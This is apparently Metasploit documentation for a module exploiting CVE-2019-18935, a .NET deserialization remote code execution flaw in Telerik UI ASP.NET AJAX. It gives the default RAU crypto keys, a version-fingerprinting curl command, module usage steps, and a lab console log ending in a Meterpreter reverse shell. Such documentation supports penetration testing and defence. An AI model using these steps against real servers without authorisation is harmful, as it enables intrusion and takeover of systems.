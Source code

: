 ## Vulnerable Application

This module exploits the .NET deserialization vulnerability within the RadAsyncUpload (RAU) component of Telerik UI
ASP.NET AJAX that is identified as CVE-2019-18935. In order to do so the module must upload a mixed mode .NET assembly
DLL which is then loaded through the deserialization flaw. Uploading the file requires knowledge of the cryptographic
keys used by RAU. The default values used by this module are related to CVE-2017-11317, which once patched randomizes
these keys. It is also necessary to know the version of Telerik UI ASP.NET that is running. This version number is in
the format YYYY.#(.###)? where YYYY is the year of the release (e.g. '2020.3.915').

### Version Reference

| Version                 | CVE-2017-11317                                  | CVE-2019-18938                    |
| ----------------------- | ----------------------------------------------- | --------------------------------- |
| < 2011.1.315            | Unknown                                         | Unknown                           |
| 2011.1.315 - 2017.2.621 | Vulnerable (unless patched and RAU is disabled) | Vulnerable                        |
| 2017.2.711 - 2019.3.917 | Configuration-dependent                         | Vulnerable                        |
| 2019.3.1023             | Configuration-dependent                         | Configuration-dependent (opt-in)  |
| > 2020.1.114            | Configuration-dependent                         | Configuration-dependent (default) |

* [https://www.telerik.com/support/kb/aspnet-ajax/upload-(async)/details/unrestricted-file-upload][1]
* [https://www.telerik.com/support/kb/aspnet-ajax/details/allows-javascriptserializer-deserialization][2]

### Configuring Telerik UI ASP.NET AJAX
Starting in version 2020.1.114, the application must be configured to be vulnerable by making changes to its XML
configuration file (`web.config`). For the live demos included within the Telerik UI trial version, this file is located
at `C:\Program Files (x86)\Progress\Telerik UI for ASP.NET AJAX R3 2020\Live Demos\web.config`. Within this
configuration file is the `appSettings` node. To make the instance vulnerable, add the following within this section and
restart the application if necessary:

```
  &lt;appSettings&gt;
    &lt;!-- Configured to replicate CVE-2017-11317 --&gt;
    &lt;add key=&quot;Telerik.AsyncUpload.ConfigurationEncryptionKey&quot; value=&quot;PrivateKeyForEncryptionOfRadAsyncUploadConfiguration&quot;/&gt;
    &lt;add key=&quot;Telerik.Upload.ConfigurationHashKey&quot; value=&quot;PrivateKeyForHashOfUploadConfiguration&quot;/&gt;
    &lt;!-- Configured to replicate CVE-2019-18935 --&gt;
    &lt;add key=&quot;Telerik.Upload.AllowedCustomMetaDataTypes&quot; value=&quot;System.Configuration.Install.AssemblyInstaller&quot;/&gt;
    &lt;!-- ... include the remaining configuration options --&gt;
```

## Verification Steps

Exploitation of this vulnerability requires knowledge of two things, the crypto keys (see the details for the
`RAU_ENCRYPTION_KEY` and `RAU_SIGNING_KEY` options) and the Telerik RAU ASP.NET AJAX version (see the details for the
`VERSION` option).

1. Start msfconsole
1. Do: `use exploit/windows/http/telerik_rau_deserialization `
1. Set the `RHOSTS` and `PAYLOAD` options
1. Set any additional options as required by the previously selected payload
1. Optionally set the `VHOST`, `RPORT` and `SSL` options as appropriate
1. Set the `VERSION` option if it is known
1. Run the exploit

The DLL file which is written to disk and executed via the deserialization flaw will remain loaded and thus can not be
cleaned up automatically by Metasploit.

## Options

### RAU_ENCRYPTION_KEY
The encryption key for the RAU configuration data. This setting can be changed [starting in version 2017.1.118][1.1] by
specifying the `Telerik.AsyncUpload.ConfigurationEncryptionKey` key within the `appSettings` section of the applications
`web.config` XML file. The default value per CVE-2017-11317 is `PrivateKeyForEncryptionOfRadAsyncUploadConfiguration`.

### RAU_SIGNING_KEY
The signing key for the RAU configuration data. This setting can be changed [starting in version 2017.1.118][1.1] by
specifying the `Telerik.Upload.ConfigurationHashKey` key within the `appSettings` section of the applications
`web.config` XML file. The default value per CVE-2017-11317 is `PrivateKeyForHashOfUploadConfiguration`. Versions older
than 2017.1.118 do not utilize signing.

### VERSION

The Telerik UI ASP.NET AJAX version. If this value is not specified, the module will attempt to enumerate it through a
series of requests using all known version numbers. This enumeration will fail if the correct crypto keys are not set.

Alternatively, the version information can sometimes be identified without authentication.

> If the application using RadAsyncUpload does not require authentication, then you can usually find the UI version
> buried somewhere in the HTML source of the application's home page. The location of the version string isn't
> consistent, though, so the best method of locating it is to use Burp to search for the regular expression
> `20[0-9]{2}(\.[0-9]*)+` (and make sure you check the "Regex" box). You can also accomplish this with cURL:
>
> `curl -skL <HOST> | grep -oE '20[0-9]{2}(\.[0-9]*)+'`
>
> If that doesn't work, you can alternatively search for the string `<script src="/WebResource` to identify any
> JavaScript files that are included in the site's home page. Choose one of the static resources there and examine its
> `Last-Modified` date in the HTTP response header; that date should roughly match the release date of the software. For
> example, a JavaScript resource bundled with UI for ASP.NET AJAX Q1 2013 (v2013.1.220, released on February 20, 2013)
> will read `Last-Modified: Wed, 20 Feb 2013 00:00:00 GMT` in the HTTP response header for that file.

*Source:* [https://labs.bishopfox.com/tech-blog/cve-2019-18935-remote-code-execution-in-telerik-ui][3]

### EXE::Custom
*This is an advanced option.*

Use custom exe instead of automatically generating a payload exe. If a custom payload executable is specified, it must
be a [mixed mode assembly][4] DLL in order to be loaded through the deserialization technique.

## Scenarios

### Telerik UI ASP.NET AJAX v2020.3.915 on Windows 10

This system was configured to be vulnerable through changes to the application's `web.config` file.

```
msf6 > use exploit/windows/http/telerik_rau_deserialization
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/telerik_rau_deserialization) > set RHOSTS 192.168.159.129
RHOSTS => 192.168.159.129
msf6 exploit(windows/http/telerik_rau_deserialization) > set RPORT 8080
RPORT => 8080
msf6 exploit(windows/http/telerik_rau_deserialization) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf6 exploit(windows/http/telerik_rau_deserialization) > set VHOST win10dev
VHOST => win10dev
msf6 exploit(windows/http/telerik_rau_deserialization) > set VERBOSE true
VERBOSE => true
msf6 exploit(windows/http/telerik_rau_deserialization) > check

[*] Enumerating the Telerik UI ASP.NET AJAX version, this will fail if the keys are incorrect
[*] Checking version: 2020.3.915
[+] Uploaded 0 bytes to: C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp
[+] The Telerik UI ASP.NET AJAX version has been identified as: 2020.3.915
[*] Server is using default crypto keys and is vulnerable to CVE-2017-11317
[*] 192.168.159.129:8080 - The service is running, but could not be validated.
[!] This exploit may require manual cleanup of 'C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp' on the target
msf6 exploit(windows/http/telerik_rau_deserialization) > set VERSION 2020.3.915
VERSION => 2020.3.915
msf6 exploit(windows/http/telerik_rau_deserialization) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(windows/http/telerik_rau_deserialization) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] Uploaded 0 bytes to: C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp
[*] Server is using default crypto keys and is vulnerable to CVE-2017-11317
[!] The service is running, but could not be validated.
[+] Uploaded 29184 bytes to: C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp
[*] Executing the payload...
[*] Sending stage (175174 bytes) to 192.168.159.129
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.129:49466) at 2020-10-07 10:44:31 -0400
[!] This exploit may require manual cleanup of 'C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp' on the target
[!] This exploit may require manual cleanup of 'C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp' on the target
[!] This exploit may require manual cleanup of 'C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp' on the target

meterpreter > getuid
Server username: WIN10DEV\smcintyre
meterpreter > sysinfo
Computer        : WIN10DEV
OS              : Windows 10 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```

[1]:   https://www.telerik.com/support/kb/aspnet-ajax/upload-(async)/details/unrestricted-file-upload
[1.1]: https://www.telerik.com/support/kb/aspnet-ajax/upload-(async)/details/unrestricted-file-upload#r1-2017-to-r2-2017-sp1
[2]:   https://www.telerik.com/support/kb/aspnet-ajax/details/allows-javascriptserializer-deserialization
[3]:   https://labs.bishopfox.com/tech-blog/cve-2019-18935-remote-code-execution-in-telerik-ui
[4]:   https://docs.microsoft.com/en-us/cpp/dotnet/mixed-native-and-managed-assemblies?view=vs-2019
